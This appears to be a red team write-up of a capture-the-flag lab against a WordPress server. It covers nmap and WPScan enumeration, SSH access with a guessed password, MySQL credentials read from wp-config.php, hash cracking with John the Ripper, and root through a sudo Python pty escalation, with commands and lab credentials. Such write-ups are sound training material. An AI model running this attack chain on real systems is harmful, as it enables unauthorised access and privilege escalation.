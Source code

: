 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#Exposed-Services)
- [Critical Vulnerabilities](#Critical-Vulnerabilities)
- [Exploitation](#Exploitation)

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV 192.168.1.110`

- <img src="/Images/NMAP-scan.png">

This scan identifies the services below as potential points of entry:
**Target 1**
1. Port 22/TCP 	Open 	SSH
2. Port 80/TCP 	Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn


## Critical Vulnerabilities

The following vulnerabilities were identified on each target:
###- Target 1
  1. <ins>**PORT ENUMERATION**</ins> (Severity: **MEDIUM**)
	- Target1 is open and responsive to ping requests allow port enumeration
  2. <ins>**WEAK PASSWORD POLICY**</ins> (Severity: **HIGH**)
	- User 'Michael' was able to use their username as password, no numerical or spacial characters were required.
	- OpenSSH was not configured to require further authentication beyond a simple password
  3. <ins>**MISCONFIGURED WEBSITE**</ins> (Severity: **HIGH**)
	- Sensitive data was found within public-facing source code. In addition password information saved within the MySQL database was unsalted, resulting in easily obtained user credentials.
  3. <ins>**PYTHON ESCALATION**</ins> (Severity: **MEDIUM-HIGH**)
	- User Steven's `sudo` privileges were misconfigured allowing for the leverage of a known python script exploit


## Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

### 1. <ins>**flag1.txt**:</ins> `b9bbcb33ellb80be759c4e844862482d`
- **Exploit Used**
        - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`


        <img src="/Images/wpscan-users.png">
                <img src="/Images/Flag1.png">

- Targeting user Michael *(Weak user credentials // lack of robust password policy)*
    - Brief manual Brute Force attack to guess Michael’s password
    	- User password was found upon attempting most basic username duplication as password credential.
            - Password: *michael*
- SSH in as Michael traversing through directories and files.
    - Flag 1 found in var/www/html folder at root in service.html
        - Commands:
            - `ssh michael@192.168.1.110`
            - `pw: michael`
            - `cd /var/www/html`
            - `ls -l`
            - `nano service.html`

### 2. <ins>**flag2.txt:**</ins> `fc3fd58dcdad9ab23faca6e9a3e581c`
- **Exploit Used**
    - Same SSH/Directory Traversal exploit for user Michael leveraged in the 1st exploit
        - Simple directory exploration found the **'flag2.txt'** file plainly visible in the /var/www/ directory.
            - `cd /var/www/`
            - `ls -l`
            - `cat flag2.txt`
    <img src="/Images/flag2.png">

### 3. <ins>**Flag3:**</ins> `afc01ab56b50591e7dccf93122770cd2`
- Exploit Used:
    - Viewing the <ins>wp-config.php</ins> file *(unrestricted file permissions)* revealed both username and password for MySQL database access.
    - Captured credentials were used to access and investigate the database.
    - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

<img src="/Images/flag3.png">


### 4. <ins>**Flag4:**</ins> `715dea6c055b9fe3337544932f2941ce`
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, username and password hashes were exported from the MySQL database. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - <img src="/Images/mysql-users.png">

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - <img src="/Images/john-show.png">

            - Once Steven’s password hash was cracked, the next step was to open an SSH shell as Steven. Since Steven's account had `sudo` privileges a python script vulnerability was leveraged to gain root access.
                - Commands: 
                    - `ssh steven@192.168.1.110`
                    - `pw:pink84`
                    - `sudo -l`
                    - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                    - `cd /root`
                    - `ls`
                    - `cat flag4.txt`

        - <ins>Python Escalate</ins>
			- <img src="/Images/python-escalate.png">

        <img src="/Images/flag4.png">